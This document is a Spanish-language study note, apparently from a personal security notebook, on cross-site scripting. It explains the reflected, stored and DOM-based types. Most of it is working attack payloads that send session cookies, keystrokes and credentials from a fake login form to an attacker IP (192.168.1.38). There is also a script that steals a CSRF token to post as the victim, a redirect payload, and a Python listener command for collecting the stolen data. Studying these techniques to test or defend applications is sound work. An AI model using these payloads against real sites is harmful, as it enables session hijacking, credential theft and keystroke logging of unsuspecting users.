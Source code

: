 # ¿ Que es? 

Es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocentimiento. Esta vulnerabilidad permite al atacanta robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

---

# Tipos de vulerabilidades XSS 

- ## Reflejado (Reflected)
Este tipo de **XSS** se produce cuando los datos proporcionados por le usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario. 

- ## Almacenado (Stored)
Este tipo de **XSS** se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada ve que se carga la página. 

- ## DOM-Based
Estipo tipo de **XSS** se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Document Object Model). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

---

- # Fines 

Los fines de esta vulnerabilidad se basan tanto en el contexto, como en el atacante y sus fines. Pero se podrian realizar multiples ataques.

- ## Intentar robar cookie de sesión 

El fin de esto claramente es realizar un **cookie hijacking** para secuestrar la sesión del usuario que visite la sección vulnerable a **XSS** de la página.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

> [!bug]
> ```html
> <script src='http://{nuestra_ip}/get_cookie.js'></script>

#### Y levantar un servidor en python con nuestro archiv 'get_cookie.js' malicioso: 

> [!bug]
> ```javascript
var request = new XMLHttpRequest();
request.open('GET', `http://192.168.1.38/?cookie=${document.cookie}`);
request.send();

#### También podríamos hacerlo de una manera más facil 
> [!bug]
> ```html
> <script>document.location="http://{our_ip}/?cookie="+document.cookie</script>

Hablamos de un **INTENTO** de robo de sesión ya que si la cookie tiene la opción httpOnly checkeada, seria imposible. 

- ## Realizar acciones como un usuario ( [[CSRF - (Cross-Side Request Forgery)]] )

En este ejemplo, interceptamos con [[Burpsuite]] la petición en la sección vulnerable a **XSS** la cual estaba en una página al hacer una publicación, por lo que se realizaba un **POST** a la ulr tramitando la data ingresada por el usuario a la par que un campo extra el cual se alojaba en la respuesta del servidor por lo que en caso de que fuese dinamico, lo primero que hacemos es capturar este para posteriormente realizar un post como el usuario.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

> [!bug]
> ```html
> <script src='http://{nuestra_ip}/make_post.js'></script>
> ```

#### Y levantar un servidor en python con nuestro archiv 'make_post.js' malicioso: 

> [!bug]
> ```javascript
const domain = "http://localhost:10007/newgossip";
const req1 = new XMLHttpRequest(); 
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send(); 
>
let response = req1.responseText; 
let parser = new DOMParser();
let doc = parser.parseFromString(response, 'text/html')
let token = doc.getElementsByName('_csrf_token')[0].value; 
>
const data = `title=ME+GUSTA+LA+CIBERSEGURIDAD&subtitle=Este+laburo+es+una+mierda&text=Estoy+re+caliente&_csrf_token=${token}`
>
const req2 = new XMLHttpRequest(); 
req2.open('POST', `http://localhost:10007/newgossip`, false)
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
req2.send(data);


- ## Redirigir a páginas de phishing propias

El fin de esto es redirigir al usuario, no hace falta que sea a una página de phishing, podria ser cualquier recurso, por lo que en el campo vulnerable se deberia introducir: 

> [!bug]
> 
> ```html
><script> window.location.href = 'url'</script>
>```

- ## Intentar realizar un inicio de sesión

En la sección vulnerable  podriamos ingresar un codigo malicioso jugando con JavaScript para intentar crear un formulario de inicio de sesión el cual nos mande las credenciales ingresadas por el usuario a un recurso nuestro.

```html
<div id="formContainer"></div>

<script> 
	var email;
	var password;
	var form = '<form>' + 'Email: <input type="email" id="email" required>' + '<br><br>' + 'Contraseña: <input type="password" id="password" required>' + '<br><br>' + '<input type="button" onclick="submitForm()" value="Ingresar"' + '</form>';
	
	document.getElementById("formContainer").innerHTML = form;
  
	function submitForm(){
		email = document.getElementById("email").value;
		password = document.getElementById("password").value;
	    console.log("Funciona", email, password)
		fetch(`http://192.168.1.38/?email=${email}&password=${password}`);
	}
</script>
```

- ## Realizar un 'key logger'

```html
<script>
	let keys = ""; 

	document.onkeypress = function(e){
		e = e || window.event; 
		keys += e.key;
		keys = keys.replace(" ", ","); 
		var i = new Image(); 
		i.src = `http://192.168.1.38/${keys}`; 
	};
</script>
```

Con este script capturariamos las pulsaciones del usuario, y las mandariamos a una ip en particualar, donde podriamos tenerun servidor de python y filtrando por esta data que nos llega `python -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'`. 
